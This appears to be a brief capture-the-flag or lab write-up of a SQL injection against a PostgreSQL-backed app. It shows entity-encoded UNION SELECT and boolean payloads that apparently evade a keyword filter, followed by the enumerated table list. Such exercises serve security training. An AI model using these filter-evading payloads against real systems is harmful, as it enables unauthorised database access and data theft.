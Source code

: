 ![](https://i.imgur.com/qDaZzqC.png)
![](https://i.imgur.com/ZqjWjyG.png)

```
1 &#x41;ND 1=1 &#x2d;&#x2d; &#x2d; -> Normal
1 &#x4f;RDER BY 1 &#x2d;&#x2d; &#x2d; -> Normal
1 &#x4f;RDER BY 1,2 &#x2d;&#x2d; &#x2d; -> 0
 
1 &#x55;NION &#x53;ELECT 1 &#x2d;&#x2d; &#x2d; -> 0

1 &#x4f;R 1=1 &#x2d;&#x2d; &#x2d; -> Multiple Entries
1 &#x4f;R 1=1 &#x55;NION &#x53;ELECT table_name FROM information_schema.tables &#x2d;&#x2d; - > Table names
```

![](https://i.imgur.com/luyz1qg.png)

`4 &#x55;NION &#x53;ELECT table_name FROM information_schema.tables &#x2d;&#x2d;`

![](https://i.imgur.com/oD5FA0z.png)
```
pg_extension pg_class pg_range pg_stat_gssapi pg_indexes pg_policies collation_character_set_applicability pg_stat_wal_receiver pg_prepared_statements pg_publication_tables constraint_table_usage pg_stat_database pg_statio_sys_tables pg_language pg_statio_all_sequences pg_statio_user_indexes pg_policy character_sets pg_stat_all_tables collations role_routine_grants foreign_data_wrapper_options check_constraint_routine_usage pg_ts_parser pg_depend sql_features pg_attribute foreign_server_options pg_ts_config routine_privileges pg_conversion pg_stat_user_indexes triggered_update_columns pg_stat_xact_all_tables pg_inherits usage_privileges attributes pg_statio_all_tables stock_level view_table_usage pg_stat_xact_user_functions table_constraints pg_largeobject_metadata pg_init_privs user_mapping_options user_defined_types pg_am foreign_table_options pg_default_acl pg_user_mappings enabled_roles pg_proc domain_udt_usage pg_locks pg_statistic_ext pg_prepared_xacts pg_auth_members pg_stat_user_functions pg_replication_slots pg_timezone_names pg_seclabels sql_packages pg_partitioned_table columns domains pg_stats pg_trigger pg_enum role_udt_grants schemata pg_pltemplate pg_collation element_types sql_languages pg_foreign_data_wrapper pg_statio_user_tables pg_tablespace data_type_privileges column_udt_usage column_column_usage pg_description pg_subscription pg_aggregate pg_stat_subscription pg_stat_database_conflicts pg_transform pg_views pg_shdepend pg_shseclabel pg_seclabel pg_amproc sql_sizing_profiles udt_privileges pg_ts_config_map pg_db_role_setting key_column_usage pg_sequences pg_stats_ext applicable_roles pg_group foreign_tables pg_sequence tables pg_statio_user_sequences pg_matviews foreign_data_wrappers administrable_role_authorizations pg_stat_user_tables role_column_grants pg_stat_archiver pg_tables pg_replication_origin pg_shdescription pg_statio_sys_indexes pg_ts_template pg_attrdef view_routine_usage pg_available_extension_versions pg_database pg_operator parameters views pg_stat_xact_user_tables pg_roles pg_stat_sys_indexes pg_stat_progress_create_index domain_constraints pg_subscription_rel pg_publication pg_foreign_table role_usage_grants referential_constraints column_privileges pg_ts_dict pg_opfamily pg_type view_column_usage pg_cursors information_schema_catalog_name sql_sizing pg_user pg_index triggers sql_implementation_info pg_rewrite routines column_domain_usage pg_constraint pg_settings users pg_stat_all_indexes role_table_grants pg_opclass pg_stat_progress_vacuum pg_available_extensions constraint_column_usage pg_namespace check_constraints pg_statio_sys_sequences pg_stat_sys_tables pg_amop pg_statio_all_indexes pg_event_trigger pg_stat_activity pg_stat_xact_sys_tables pg_foreign_server foreign_servers column_options user_mappings pg_timezone_abbrevs pg_rules pg_stat_replication pg_stat_bgwriter sequences pg_cast pg_publication_rel pg_stat_progress_cluster table_privileges products pg_stat_ssl
```
